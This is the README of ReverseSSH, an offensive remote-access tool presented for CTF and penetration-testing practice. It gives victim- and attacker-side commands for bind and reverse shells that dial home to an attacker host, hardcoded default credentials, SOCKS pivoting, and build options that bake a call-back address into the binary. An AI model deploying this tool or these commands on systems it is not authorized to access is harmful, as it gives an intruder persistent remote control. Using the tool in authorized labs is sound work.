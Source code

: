 # ReverseSSH

**A statically-linked ssh server with a reverse connection feature for simple yet powerful remote access. Most useful during HackTheBox challenges, CTFs or similar.**

Has been developed and was extensively used during OSCP exam preparation.

**[Get the latest Release](https://github.com/Fahrj/reverse-ssh/releases/latest)**

![Showcase](assets/showcase.gif)


## Features

Catching a reverse shell with _netcat_ is cool, sure, but who hasn't accidentally closed a reverse shell with a keyboard interrupt due to muscle memory?
Besides their fragility, such shells are also often missing convenience features such as fully interactive access, TAB-completion or history.

Instead, you can go the way to simply deploy the **lightweight ssh server** (<1.5MB) `reverse-ssh` onto the target, and use additional commodities such as **file transfer** and **port forwarding**!

ReverseSSH tries to bridge the gap between initial foothold on a target and full local privilege escalation.
Its main strengths are the following:

* **Fully interactive shell access** (check caveats for old windows versions below)
* **File transfer via sftp**
* **Local / remote / dynamic port forwarding**
* **Can be used as bind- and reverse-shell**
* Supports **Unix** and **Windows** operating systems

**Windows caveats**

A fully interactive powershell on windows relies on [Windows Pseudo Console ConPTY](https://devblogs.microsoft.com/commandline/windows-command-line-introducing-the-windows-pseudo-console-conpty/) and thus requires at least `Win10 Build 17763`.
On earlier versions you can still get an interactive reverse shell that can't handle virtual terminal codes such as arrow keys or keyboard interrupts.
In such cases you have to append the `cmd` command, i.e. `ssh <OPTIONS> <IP> cmd`.

You can achieve full interactive shell access for older windows versions by dropping `ssh-shellhost.exe` [from OpenSSH for Windows](https://github.com/PowerShell/Win32-OpenSSH/releases/latest) in the same directory as `reverse-ssh` and then use flag `-s ssh-shellhost.exe`.
This will pipe all traffic through `ssh-shellhost.exe`, which mimics a pty and transforms all virtual terminal codes such that windows can understand.


## Requirements

Simply executing the provided binaries only relies on [golang system requirements](https://github.com/golang/go/wiki/MinimumRequirements#operating-systems).

In short:

* **Linux**: kernel version 2.6.23 and higher
* **Windows**: Windows Server 2008R2 and higher or Windows 7 and higher

Compiling additionally requires the following:

* golang version 1.15
* optionally `upx` for compression (e.g. `apt install upx-ucl`)


## Usage

Once `reverse-ssh` is running on the victim, you can connect with any username and the default password `letmeinbrudipls`, the ssh key or whatever you specified during compilation.
After all, it is just an ssh server:

```
# Fully interactive shell access
$ ssh -p <RPORT> <RHOST>

# Simple command execution
$ ssh -p <RPORT> <RHOST> whoami

# Full-fledged file transfers
$ sftp -P <RPORT> <RHOST>

# Dynamic port forwarding as SOCKS proxy on port 9050
$ ssh -p <RPORT> -D 9050 <RHOST>
```

### Running ReverseSSH as bind shell

```
# Victim
victim$ ./reverse-ssh

# Attacker (default password: letmeinbrudipls)
attacker$ ssh -p 31337 <RHOST>
```

### Running ReverseSSH as reverse shell

Note: you can compile ReverseSSH with parameters for LHOST and LPORT to ease execution on the target, [see below](#build-tricks)

```
# On attacker (get ready to catch the incoming request;
# can be omitted if you already have an ssh daemon running, e.g. OpenSSH)
# NOTE: LPORT of 8888 collides with incoming connections; use the flag `-b 8889` or similar on the victim in that case
attacker$ ./reverse-ssh -v -l -p <LPORT>

# On victim
victim$ ./reverse-ssh -p <LPORT> <LHOST>
# or in case of an ssh daemon listening at port 22 with password authentication for user 'kali'
victim$ ./reverse-ssh -p 22 kali@<LHOST>

# On attacker (default password: letmeinbrudipls)
attacker$ ssh -p 8888 127.0.0.1
# or with ssh config from below
attacker$ ssh target
```

In the end it's plain ssh, so you could catch the remote port forwarding call coming from the victim's machine with your openssh daemon listening on port 22.
Just prepend `<USER>@` and provide the password once asked to do so.
Dialling home currently is password only, because I didn't feel like baking a private key in there as well yet...

For even more convenience, add the following to your `~/.ssh/config`, copy the [ssh private key](assets/id_reverse-ssh) to `~/.ssh/` and simply call `ssh target` or `sftp target` afterwards:

```
Host target
        Hostname 127.0.0.1
        Port 8888
        IdentityFile ~/.ssh/id_reverse-ssh
        IdentitiesOnly yes
        StrictHostKeyChecking no
        UserKnownHostsFile /dev/null
```

### Full usage

```
reverseSSH v1.2.0  Copyright (C) 2021  Ferdinor <ferdinor@mailbox.org>

Usage: reverse-ssh [options] [[<user>@]<target>]

Examples:
  Bind:
        reverse-ssh -l
        reverse-ssh -v -l -p 4444
  Reverse:
        reverse-ssh 192.168.0.1
        reverse-ssh kali@192.168.0.1
        reverse-ssh -p 31337 192.168.0.1
        reverse-ssh -v -b 0 kali@192.168.0.2

Options:
        -l, Start reverseSSH in listening mode (overrides reverse scenario)
        -p, Port at which reverseSSH is listening for incoming ssh connections (bind scenario)
                or where it tries to establish a ssh connection (reverse scenario) (default: 31337)
        -b, Reverse scenario only: bind to this port after dialling home (default: 8888)
        -s, Shell to spawn for incoming connections, e.g. /bin/bash; (default: /bin/bash)
                for windows this can only be used to give a path to 'ssh-shellhost.exe' to
                enhance pre-Windows10 shells (e.g. '-s ssh-shellhost.exe' if in same directory)
        -v, Emit log output

<target>
        Optional target which enables the reverse scenario. Can be prepended with
        <user>@ to authenticate as a different user other than 'reverse' while dialling home

Credentials:
        Accepting all incoming connections from any user with either of the following:
         * Password "letmeinbrudipls"
         * PubKey   "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKlbJwr+ueQ0gojy4QWr2sUWcNC/Y9eV9RdY3PLO7Bk/ Brudi"
```


## Build instructions

Make sure to install the above requirements such as golang in a matching version and set it up correctly.
Afterwards, you can compile with `make`, which will create static binaries in `bin`.
Use `make compressed` to pack the binaries with upx to further reduce their size.

```
$ make

# or to additionally created binaries packed with upx
$ make compressed
```

### Build tricks

You can also specify one or more of the following environmental variables when compiling to customize ReverseSSH to your use case:

* `RS_SHELL` to change the default shell
* `RS_PASS` to provide your personalized password
* `RS_PUB` to provide your personalized an authorized key
* `LUSER` to change the default username of the ssh connection attempt
* `LHOST` to provide a default LHOST value and make **ReverseSSH default to the reverse scenario**
* `LPORT` to change the default listening port or port where an ssh connection attempt is sent to
* `BPORT` to change the default listening port of reverse connections on the attacker machine; **0 means any free port is taken**

```shell
$ ssh-keygen -t ed25519 -f id_reverse-ssh

$ RS_SHELL="/bin/sh" RS_PASS="secret" RS_PUB="$(cat id_reverse-ssh.pub)" make compressed

$ LHOST="192.168.0.10" LPORT="443" BPORT="0" RS_PUB="$(cat id_reverse-ssh.pub)" make compressed
```

### Building for different operating systems or architectures

By default, `reverse-ssh` is compiled for your current OS and architecture, as well as for linux and windows in x86 and x64.
To compile for other architectures or another OS you can provide environmental variables which match your target, e.g. for linux/arm64:

```
$ GOARCH=arm64 GOOS=linux make compressed
```

A list of available targets in format `OS/arch` can be obtained via `go tool dist list`.


## Contribute

Is a mind-blowing feature missing? Anything not working as intended?

**Create an issue or pull request!**
